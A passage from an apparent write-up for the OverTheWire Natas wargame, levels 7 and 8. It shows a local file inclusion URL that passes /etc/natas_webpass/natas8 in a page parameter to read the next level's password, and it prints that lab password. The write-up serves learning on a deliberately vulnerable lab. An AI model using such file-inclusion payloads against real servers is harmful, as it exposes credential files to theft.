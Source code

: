 Username: natas7
Lab URL: http://natas7.natas.labs.overthewire.org/

In page source code is an hint:

![Page](assets/natas/7/page_interesing_part.png)

So we exactly know where passwords are located. We must only read this file. It can be done in this way:

```
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

More about this bug you can read [here](https://wiki.owasp.org/index.php/Testing_for_Local_File_Inclusion)

![Password](assets/natas/7/password.png)

password: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe


# ## [Level 7 -> Level 8](https://overthewire.org/wargames/natas/natas8.html)

Username: natas8
Lab URL: http://natas8.natas.labs.overthewire.org/

![Page](assets/natas/8/page.png)

As in level level 5 let's check "view source code". 

![Source code](assets/natas/8/source_code.png)
